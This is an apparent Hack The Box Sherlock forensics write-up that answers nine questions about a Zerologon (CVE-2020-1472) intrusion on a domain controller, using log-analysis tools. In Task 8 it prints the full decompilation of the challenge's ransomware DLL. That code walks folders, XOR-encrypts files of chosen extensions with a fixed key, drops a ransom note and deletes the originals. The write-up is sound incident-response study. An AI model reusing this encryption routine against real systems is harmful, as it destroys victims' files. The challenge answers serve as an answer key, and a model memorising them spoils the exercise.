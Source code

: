 # Sherlock Scenario
You'll notice a lot of our critical server infrastructure was recently transferred from the domain of our MSSP - Forela.local over to Northpole.local. We actually managed to purchase some second hand servers from the MSSP who have confirmed they are as secure as Christmas is! It seems not as we believe christmas is doomed and the attackers seemed to have the stealth of a clattering sleigh bell, or they didn’t want to hide at all!!!!!! We have found nasty notes from the Grinch on all of our TinkerTech workstations and servers! Christmas seems doomed. Please help us recover from whoever committed this naughty attack!

# Solution
## Task 1 
Question: Which CVE did the Threat Actor (TA) initially exploit to gain access to DC01?
<br>Answer: `CVE-2020-1472`

Using Hayabusa, the evtx directory can be scanned to determine the vulnerability using rules.

```
.\hayabusa-2.11.0-win-x64.exe csv-timeline -d 'C:\HTB\Optinseltrace\optinseltrace5\DC01.northpole.local-KAPE\uploads\auto\C%3A\Windows\System32\winevt' -o results.csv
```

![win1](https://github.com/warlocksmurf/HTB-writeups/assets/121353711/6122cd2d-9ea2-4987-9111-6e23fbb4cd42)

![win2](https://github.com/warlocksmurf/HTB-writeups/assets/121353711/0ebb55bd-a1e0-4838-aff4-14f41c07d7f6)

## Task 2 
Question: What time did the TA initially exploit the CVE? (UTC)
<br>Answer: `2023-12-13 09:24:23`

Reading this [blog](https://0xbandar.medium.com/detecting-the-cve-2020-1472-zerologon-attacks-6f6ec0730a9e) about the CVE, it mentioned an easy way to detect the exploit using the Security.evtx.

> Successful exploitation resulting in a rest of the computer account password and it will be shown in security logs with event id 4742 “A computer account was changed”, password last set change, performed by Anonymous Logon.


![win2 1](https://github.com/warlocksmurf/HTB-writeups/assets/121353711/8307d503-2500-485b-9f84-9f20da3d1fed)

## Task 3
Question: What is the name of the executable related to the unusual service installed on the system around the time of the CVE exploitation?
<br>Answer: `hAvbdksT.exe`

Since we know the timeline of compromise in Task 2, the executable related to the "vulnerable_to_zerologon" service can be easily found in the System.evtx by filtering the time and eventID.

![win3](https://github.com/warlocksmurf/HTB-writeups/assets/121353711/e54e82e9-45ae-4e87-b078-7484cfeb94d0)

## Task 4 
Question: What date & time was the unusual service start?
<br>Answer: `2023-12-13 09:24:24`

Similar to Task 3, just look for "vulnerable_to_zerologon" service starting.

![win4](https://github.com/warlocksmurf/HTB-writeups/assets/121353711/6dc67f43-deb9-487f-bdd1-4f8b53488d6b)

## Task 5 
Question: What was the TA's IP address within our internal network?
<br>Answer: `192.168.68.200`

Using Hayabusa, we can find out the logon attempts and since we know there ANONYMOUS LOGON was one of them from Task 2, we can easily see the IP address.

```
.\hayabusa-2.11.0-win-x64.exe logon-summary -d 'C:\Users\ooiro\Documents\shared\HTB\Optinseltrace\optinseltrace5\DC01.northpole.local-KAPE\uploads\auto\C%3A\Windows\System32\winevt\Logs'
```

![win5](https://github.com/warlocksmurf/HTB-writeups/assets/121353711/354b98c3-4f46-4448-b0e3-254c443e2244)

## Task 6 
Question: Please list all user accounts the TA utilised during their access. (Ascending order)
<br>Answer: `Administrator, Bytesparkle`

Using Hayabusa, we can find out which account was compromised using the IP address from Task 5.

![win6](https://github.com/warlocksmurf/HTB-writeups/assets/121353711/676b3958-cdf9-4c7e-9a14-0a66b0fd443a)

## Task 7 
Question: What was the name of the scheduled task created by the TA?
<br>Answer: `svc_vnc`

Just look for the Microsoft-Windows-TaskScheduler%254Operational.evtx log file and filter by eventID 106 (Task registered). Two schedule tasks was created and one of them was the answer.

![win7](https://github.com/warlocksmurf/HTB-writeups/assets/121353711/f517c46e-1397-4c9d-9741-706dc1b7a367)

## Task 8 
Question: Santa's memory is a little bad recently! He tends to write a lot of stuff down, but all our critical files have been encrypted! Which creature is Santa's new sleigh design planning to use?
<br>Answer: `Unicorn`

Initially, we were given several encrypted files and the encryption program (splunk_svc.dll). So it is obvious we have to perform reverse engineering on splunk_svc.dll to decrypt the files. Using ghidra, I managed to find the malware function that encrypted the files (FUN_180001330).

<details>
<summary>
FUN_180001330
</summary>

```
/* WARNING: Function: _alloca_probe replaced with injection: alloca_probe */
/* WARNING: Globals starting with '_' overlap smaller symbols at the same address */

void FUN_180001330(char *param_1)

{
  undefined4 *_Dst;
  char cVar1;
  undefined8 uVar2;
  undefined4 uVar3;
  undefined4 uVar4;
  undefined4 uVar5;
  undefined4 uVar6;
  undefined4 uVar7;
  undefined4 uVar8;
  undefined4 uVar9;
  undefined4 uVar10;
  undefined4 uVar11;
  undefined4 uVar12;
  undefined8 *puVar13;
  undefined4 *puVar14;
  BOOL BVar15;
  int iVar16;
  undefined4 uVar17;
  uint uVar18;
  undefined4 *_Memory;
  ulonglong uVar19;
  char *pcVar20;
  FILE *_File;
  FILE *_File_00;
  undefined4 *puVar21;
  undefined2 uVar22;
  undefined *puVar23;
  longlong lVar24;
  undefined8 *puVar25;
  undefined2 *puVar26;
  FILE *pFVar27;
  undefined4 *puVar28;
  longlong lVar29;
  undefined4 *puVar30;
  wchar_t *_Src;
  longlong lVar31;
  undefined auStackY_1130 [32];
  char *local_10e0 [69];
  char *local_eb8;
  undefined4 local_ea8;
  undefined2 local_ea4;
  undefined local_e80 [8];
  char local_e78 [799];
  undefined uStack_b59;
  char local_b58 [799];
  undefined8 uStack_839;
  undefined2 uStack_729;
  undefined4 local_338 [192];
  ulonglong local_38;
  
  local_38 = DAT_180005008 ^ (ulonglong)auStackY_1130;
  local_10e0[0] = ".3ds";
  local_10e0[1] = &DAT_18000353c;
  local_10e0[2] = &DAT_180003544;
  local_10e0[3] = &DAT_18000354c;
  local_10e0[4] = &DAT_180003554;
  local_10e0[5] = &DAT_18000355c;
  local_10e0[7] = &DAT_180003560;
  local_10e0[8] = &DAT_180003564;
  local_10e0[9] = &DAT_18000356c;
  local_10e0[10] = &DAT_180003574;
  local_10e0[11] = &DAT_180003578;
  local_10e0[12] = &DAT_180003580;
  local_10e0[13] = &DAT_180003588;
  local_10e0[14] = &DAT_18000358c;
  local_10e0[15] = &DAT_180003594;
  local_10e0[16] = &DAT_18000359c;
  local_10e0[17] = &DAT_1800035a4;
  local_10e0[18] = &DAT_1800035ac;
  local_10e0[19] = &DAT_1800035b4;
  local_10e0[20] = &DAT_1800035bc;
  local_10e0[21] = &DAT_1800035c0;
  local_10e0[22] = &DAT_1800035c4;
  local_10e0[23] = &DAT_1800035cc;
  local_10e0[24] = &DAT_1800035d4;
  local_10e0[25] = &DAT_1800035dc;
  local_10e0[26] = &DAT_1800035e4;
  local_10e0[27] = &DAT_1800035ec;
  local_10e0[28] = &DAT_1800035f4;
  local_10e0[29] = &DAT_1800035fc;
  local_10e0[30] = &DAT_180003604;
  local_10e0[31] = &DAT_18000360c;
  local_10e0[32] = &DAT_180003614;
  local_10e0[33] = &DAT_18000361c;
  local_10e0[34] = &DAT_180003624;
  local_10e0[35] = &DAT_18000362c;
  local_10e0[36] = &DAT_180003634;
  local_10e0[37] = &DAT_180003638;
  local_10e0[38] = &DAT_180003640;
  local_10e0[39] = &DAT_180003648;
  local_10e0[40] = &DAT_180003650;
  local_10e0[41] = &DAT_180003658;
  local_10e0[42] = &DAT_180003660;
  local_10e0[43] = &DAT_180003668;
  local_10e0[44] = &DAT_180003670;
  local_10e0[45] = &DAT_180003678;
  local_10e0[46] = &DAT_180003680;
  local_10e0[47] = &DAT_180003688;
  local_10e0[48] = &DAT_180003690;
  local_10e0[49] = &DAT_180003698;
  local_10e0[50] = &DAT_1800036a0;
  local_10e0[51] = &DAT_1800036a8;
  local_10e0[52] = &DAT_1800036b0;
  local_10e0[53] = ".accdb";
  local_10e0[54] = ".aspx";
  local_10e0[55] = ".avhd";
  local_10e0[56] = ".back";
  local_10e0[57] = ".conf";
  local_10e0[58] = ".disk";
  local_10e0[59] = ".djvu";
  local_10e0[60] = ".docx";
  local_10e0[61] = ".kdbx";
  local_10e0[62] = ".mail";
  local_10e0[63] = ".pptx";
  local_10e0[64] = ".vbox";
  local_10e0[65] = ".vmdk";
  local_10e0[66] = ".vmsd";
  local_10e0[67] = ".vsdx";
  local_10e0[68] = ".work";
  local_eb8 = ".xlsx";
  _Memory = (undefined4 *)FUN_1800010f0(param_1);
  if (_Memory == (undefined4 *)0x0) {
LAB_180001ca6:
    __security_check_cookie(local_38 ^ (ulonglong)auStackY_1130);
    return;
  }
LAB_180001710:
  lVar31 = *(longlong *)(_Memory + 0x4a);
  if (*(int *)(lVar31 + 0x478) == 0) {
    if (*(HANDLE *)(lVar31 + 0x480) == (HANDLE)0xffffffffffffffff) goto LAB_180001c5e;
    BVar15 = FindNextFileW(*(HANDLE *)(lVar31 + 0x480),(LPWIN32_FIND_DATAW)(lVar31 + 0x228));
    if (BVar15 == 0) {
      FindClose(*(HANDLE *)(lVar31 + 0x480));
      *(undefined8 *)(lVar31 + 0x480) = 0xffffffffffffffff;
LAB_180001c5e:
      FUN_180001080(*(void **)(_Memory + 0x4a));
      *(undefined8 *)(_Memory + 0x4a) = 0;
      free(_Memory);
      goto LAB_180001ca6;
    }
  }
  else {
    *(undefined4 *)(lVar31 + 0x478) = 0;
  }
  if ((uint *)(lVar31 + 0x228) == (uint *)0x0) goto LAB_180001c5e;
  _Dst = _Memory + 7;
  _Src = (wchar_t *)(lVar31 + 0x254);
  iVar16 = wcstombs_s((size_t *)local_e80,(char *)_Dst,0x105,_Src,0x105);
  if (iVar16 == 0) {
LAB_1800017c6:
    *(size_t *)(_Memory + 4) = (longlong)local_e80 - 1;
    uVar18 = *(uint *)(lVar31 + 0x228);
    if ((uVar18 & 0x40) == 0) {
      uVar22 = 0x128;
      uVar17 = 0x8000;
      if ((uVar18 & 0x10) != 0) {
        uVar17 = 0x4000;
      }
      _Memory[6] = uVar17;
      uVar17 = 0;
    }
    else {
      _Memory[6] = 0x2000;
      uVar22 = 0x128;
      uVar17 = 0;
    }
  }
  else {
    _Src = (wchar_t *)(lVar31 + 0x45c);
    if (*_Src != L'\0') {
      iVar16 = wcstombs_s((size_t *)local_e80,(char *)_Dst,0x105,_Src,0x105);
    }
    if (iVar16 == 0) goto LAB_1800017c6;
    *(undefined *)_Dst = 0x3f;
    uVar22 = 0;
    *(undefined *)((longlong)_Memory + 0x1d) = 0;
    uVar17 = 0xffffffff;
    *(undefined8 *)(_Memory + 4) = 1;
    _Memory[6] = 0;
  }
  *_Memory = 0;
  _Memory[1] = uVar17;
  uVar19 = 0xffffffffffffffff;
  *(undefined2 *)(_Memory + 2) = uVar22;
  do {
    uVar19 = uVar19 + 1;
  } while (param_1[uVar19] != '\0');
  if (((uVar19 < 1000) && ((*(char *)_Dst != '.' || (*(char *)((longlong)_Memory + 0x1d) != '\0'))))
     && ((*(char *)_Dst != '.' ||
         ((*(char *)((longlong)_Memory + 0x1d) != '.' ||
          (*(char *)((longlong)_Memory + 0x1e) != '\0')))))) {
    lVar31 = 0;
    do {
      pcVar20 = strstr((char *)_Dst,local_10e0[lVar31]);
      if (pcVar20 != (char *)0x0) {
        local_ea8 = 0x616d782e;
        local_ea4 = 0x78;
        pcVar20 = param_1;
        do {
          cVar1 = *pcVar20;
          pcVar20[(longlong)(local_e78 + -(longlong)param_1)] = cVar1;
          pcVar20 = pcVar20 + 1;
        } while (cVar1 != '\0');
        puVar26 = (undefined2 *)(local_e80 + 7);
        do {
          pcVar20 = (char *)((longlong)puVar26 + 1);
          puVar26 = (undefined2 *)((longlong)puVar26 + 1);
        } while (*pcVar20 != '\0');
        *puVar26 = 0x5c;
        puVar23 = local_e80 + 7;
        do {
          pcVar20 = puVar23 + 1;
          puVar23 = puVar23 + 1;
        } while (*pcVar20 != '\0');
        lVar24 = 0;
        do {
          cVar1 = *(char *)((longlong)_Dst + lVar24);
          puVar23[lVar24] = cVar1;
          lVar24 = lVar24 + 1;
        } while (cVar1 != '\0');
        lVar24 = 0;
        do {
          pcVar20 = local_e78 + lVar24;
          local_b58[lVar24] = *pcVar20;
          lVar24 = lVar24 + 1;
        } while (*pcVar20 != '\0');
        puVar23 = &uStack_b59;
        do {
          pcVar20 = puVar23 + 1;
          puVar23 = puVar23 + 1;
        } while (*pcVar20 != '\0');
        puVar30 = &local_ea8;
        lVar24 = 0;
        do {
          cVar1 = *(char *)((longlong)puVar30 + lVar24);
          puVar23[lVar24] = cVar1;
          lVar24 = lVar24 + 1;
        } while (cVar1 != '\0');
        FUN_180001020(&DAT_180003754,local_b58,puVar30,_Src);
        pFVar27 = (FILE *)&DAT_180003208;
        _File = fopen(local_e78,"rb");
        if (_File == (FILE *)0x0) {
LAB_180001a69:
          FUN_180001020("\nXOR operation failed!",pFVar27,puVar30,_Src);
        }
        else {
          pFVar27 = (FILE *)&DAT_18000320c;
          _File_00 = fopen(local_b58,"wb");
          if (_File_00 == (FILE *)0x0) goto LAB_180001a69;
          lVar24 = 0;
          while( true ) {
            lVar29 = 0;
            if (lVar24 < 0x10) {
              lVar29 = lVar24;
            }
            uVar18 = fgetc(_File);
            lVar24 = lVar29 + 1;
            if (uVar18 == 0xffffffff) break;
            pFVar27 = _File_00;
            fputc((int)"EncryptingC4Fun!"[lVar29] ^ uVar18,_File_00);
          }
          iVar16 = fclose(_File);
          if ((iVar16 != 0) || (iVar16 = fclose(_File_00), iVar16 != 0)) goto LAB_180001a69;
        }
        _DAT_180005628 = _DAT_180005628 + 1;
        _Src = (wchar_t *)0x0;
        SHGetSpecialFolderPathA((HWND)0x0,(LPSTR)((longlong)&uStack_839 + 1),0,0);
        lVar24 = 5;
        puVar30 = (undefined4 *)
                  "Dear Santa Claus,\n\nIt\'s time for a holiday twist you didn\'t see coming. Yours  truly, the Grinch, has taken over your Christmas operation. Not only have I got m y hands on your list of gift recipients, but I also hold the infamous Naughty List . The world is on the edge of discovering who\'s been less than angelic this year! \n\nTo keep Christmas from turning into a scandal, I demand a ransom of 5,000,000 XMAS tokens. Deposit them into my crypto wallet: GR1NCH-5ANTA-2023XMAS. Delay or n on-compliance will lead to the Naughty List becoming public knowledge, destroying the festive spirit across the globe.\n\nTick tock, Santa. The deadline is midnight  on Christmas Eve. Make the right choice. Together, we can still save Christmas.\n \nSinister holiday wishes,\nThe Grinch"
        ;
        puVar14 = local_338;
        do {
          puVar28 = puVar14;
          puVar21 = puVar30;
          uVar17 = puVar21[1];
          uVar3 = puVar21[2];
          uVar4 = puVar21[3];
          uVar5 = puVar21[4];
          uVar6 = puVar21[5];
          uVar7 = puVar21[6];
          uVar8 = puVar21[7];
          *puVar28 = *puVar21;
          puVar28[1] = uVar17;
          puVar28[2] = uVar3;
          puVar28[3] = uVar4;
          uVar17 = puVar21[8];
          uVar3 = puVar21[9];
          uVar4 = puVar21[10];
          uVar9 = puVar21[0xb];
          puVar28[4] = uVar5;
          puVar28[5] = uVar6;
          puVar28[6] = uVar7;
          puVar28[7] = uVar8;
          uVar5 = puVar21[0xc];
          uVar6 = puVar21[0xd];
          uVar7 = puVar21[0xe];
          uVar8 = puVar21[0xf];
          puVar28[8] = uVar17;
          puVar28[9] = uVar3;
          puVar28[10] = uVar4;
          puVar28[0xb] = uVar9;
          uVar17 = puVar21[0x10];
          uVar3 = puVar21[0x11];
          uVar4 = puVar21[0x12];
          uVar9 = puVar21[0x13];
          puVar28[0xc] = uVar5;
          puVar28[0xd] = uVar6;
          puVar28[0xe] = uVar7;
          puVar28[0xf] = uVar8;
          uVar5 = puVar21[0x14];
          uVar6 = puVar21[0x15];
          uVar7 = puVar21[0x16];
          uVar8 = puVar21[0x17];
          puVar28[0x10] = uVar17;
          puVar28[0x11] = uVar3;
          puVar28[0x12] = uVar4;
          puVar28[0x13] = uVar9;
          uVar17 = puVar21[0x18];
          uVar3 = puVar21[0x19];
          uVar4 = puVar21[0x1a];
          uVar9 = puVar21[0x1b];
          puVar28[0x14] = uVar5;
          puVar28[0x15] = uVar6;
          puVar28[0x16] = uVar7;
          puVar28[0x17] = uVar8;
          uVar5 = puVar21[0x1c];
          uVar6 = puVar21[0x1d];
          uVar7 = puVar21[0x1e];
          uVar8 = puVar21[0x1f];
          puVar28[0x18] = uVar17;
          puVar28[0x19] = uVar3;
          puVar28[0x1a] = uVar4;
          puVar28[0x1b] = uVar9;
          puVar28[0x1c] = uVar5;
          puVar28[0x1d] = uVar6;
          puVar28[0x1e] = uVar7;
          puVar28[0x1f] = uVar8;
          lVar24 = lVar24 + -1;
          puVar30 = puVar21 + 0x20;
          puVar14 = puVar28 + 0x20;
        } while (lVar24 != 0);
        uVar2 = *(undefined8 *)(puVar21 + 0x3c);
        uVar17 = puVar21[0x21];
        uVar3 = puVar21[0x22];
        uVar4 = puVar21[0x23];
        uVar5 = puVar21[0x24];
        uVar6 = puVar21[0x25];
        uVar7 = puVar21[0x26];
        uVar8 = puVar21[0x27];
        puVar28[0x20] = puVar21[0x20];
        puVar28[0x21] = uVar17;
        puVar28[0x22] = uVar3;
        puVar28[0x23] = uVar4;
        uVar17 = puVar21[0x28];
        uVar3 = puVar21[0x29];
        uVar4 = puVar21[0x2a];
        uVar9 = puVar21[0x2b];
        puVar28[0x24] = uVar5;
        puVar28[0x25] = uVar6;
        puVar28[0x26] = uVar7;
        puVar28[0x27] = uVar8;
        uVar5 = puVar21[0x2c];
        uVar6 = puVar21[0x2d];
        uVar7 = puVar21[0x2e];
        uVar8 = puVar21[0x2f];
        puVar28[0x28] = uVar17;
        puVar28[0x29] = uVar3;
        puVar28[0x2a] = uVar4;
        puVar28[0x2b] = uVar9;
        uVar9 = puVar21[0x30];
        uVar10 = puVar21[0x31];
        uVar11 = puVar21[0x32];
        uVar12 = puVar21[0x33];
        puVar28[0x2c] = uVar5;
        puVar28[0x2d] = uVar6;
        puVar28[0x2e] = uVar7;
        puVar28[0x2f] = uVar8;
        uVar17 = puVar21[0x34];
        uVar3 = puVar21[0x35];
        uVar4 = puVar21[0x36];
        uVar5 = puVar21[0x37];
        puVar28[0x30] = uVar9;
        puVar28[0x31] = uVar10;
        puVar28[0x32] = uVar11;
        puVar28[0x33] = uVar12;
        uVar6 = puVar21[0x38];
        uVar7 = puVar21[0x39];
        uVar8 = puVar21[0x3a];
        uVar9 = puVar21[0x3b];
        puVar28[0x34] = uVar17;
        puVar28[0x35] = uVar3;
        puVar28[0x36] = uVar4;
        puVar28[0x37] = uVar5;
        puVar28[0x38] = uVar6;
        puVar28[0x39] = uVar7;
        puVar28[0x3a] = uVar8;
        puVar28[0x3b] = uVar9;
        *(undefined8 *)(puVar28 + 0x3c) = uVar2;
        puVar28[0x3e] = puVar21[0x3e];
        puVar13 = &uStack_839;
        do {
          puVar25 = puVar13;
          puVar13 = (undefined8 *)((longlong)puVar25 + 1);
        } while (*(char *)((longlong)puVar25 + 1) != '\0');
        *(undefined8 *)((longlong)puVar25 + 1) = 0x2e454d444145525c;
        *(undefined4 *)((longlong)puVar25 + 9) = 0x545854;
        pFVar27 = fopen((char *)((longlong)&uStack_839 + 1),"w");
        fputs((char *)local_338,pFVar27);
        fclose(pFVar27);
        remove(local_e78);
      }
      lVar31 = lVar31 + 1;
    } while (lVar31 < 0x45);
    pcVar20 = param_1;
    do {
      cVar1 = *pcVar20;
      pcVar20[(longlong)&uStack_729 + (1 - (longlong)param_1)] = cVar1;
      pcVar20 = pcVar20 + 1;
    } while (cVar1 != '\0');
    puVar26 = &uStack_729;
    do {
      pcVar20 = (char *)((longlong)puVar26 + 1);
      puVar26 = (undefined2 *)((longlong)puVar26 + 1);
    } while (*pcVar20 != '\0');
    *puVar26 = 0x5c;
    puVar26 = &uStack_729;
    do {
      pcVar20 = (char *)((longlong)puVar26 + 1);
      puVar26 = (undefined2 *)((longlong)puVar26 + 1);
    } while (*pcVar20 != '\0');
    lVar31 = 0;
    do {
      cVar1 = *(char *)((longlong)_Dst + lVar31);
      *(char *)((longlong)puVar26 + lVar31) = cVar1;
      lVar31 = lVar31 + 1;
    } while (cVar1 != '\0');
    FUN_180001330((char *)((longlong)&uStack_729 + 1));
  }
  goto LAB_180001710;
}
```

</details>

Analyzing the function, the encryption method was discovered to be a simple XOR with the key "EncryptingC4Fun!". So we can use CyberChef to decrypt the files easily and discover Santa' plan.

![win8](https://github.com/warlocksmurf/HTB-writeups/assets/121353711/a665d12f-a6a4-46cd-8463-bf0f89f06fe7)

![win8 1](https://github.com/warlocksmurf/HTB-writeups/assets/121353711/fbb5dac6-a162-421f-891b-63dcfd1c6267)

![win8 2](https://github.com/warlocksmurf/HTB-writeups/assets/121353711/4137037d-0797-4c1e-919b-7be3bded88b2)

## Task 9 
Question: Please confirm the process ID of the process that encrypted our files.
<br>Answer: `5828`

Using EVTXCmd, we can search for the file extension of encrypted files (.xmax). We discover that they were stored in the Microsoft-Windows-UAC-FileVirtualization/Operational channel. Hence, we can analyze the Microsoft-Windows-UAC-FileVirtualization/Operational.evtx file to obtain the process ID.

![win9](https://github.com/warlocksmurf/HTB-writeups/assets/121353711/c1c564be-85e9-4850-9c1b-34527c3094d2)

![win9 1](https://github.com/warlocksmurf/HTB-writeups/assets/121353711/7c5b26f8-53db-4cef-af70-f228c2ccd7c7)


